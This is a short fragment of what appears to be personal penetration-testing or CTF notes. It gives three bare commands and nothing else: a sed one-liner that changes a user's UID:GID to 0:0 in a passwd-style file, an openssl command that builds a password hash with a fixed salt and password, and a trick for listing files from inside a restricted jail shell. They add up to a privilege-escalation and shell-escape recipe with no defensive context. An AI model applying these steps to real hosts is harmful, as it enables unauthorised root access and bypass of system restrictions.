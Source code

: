 sed -i.bak '56 s/1000:1000/0:0/g' pp


openssl passwd -1 -salt Etg2ExUZ redhat


in jail shell if ls does not work use echo to list files.

echo /usr/share/*
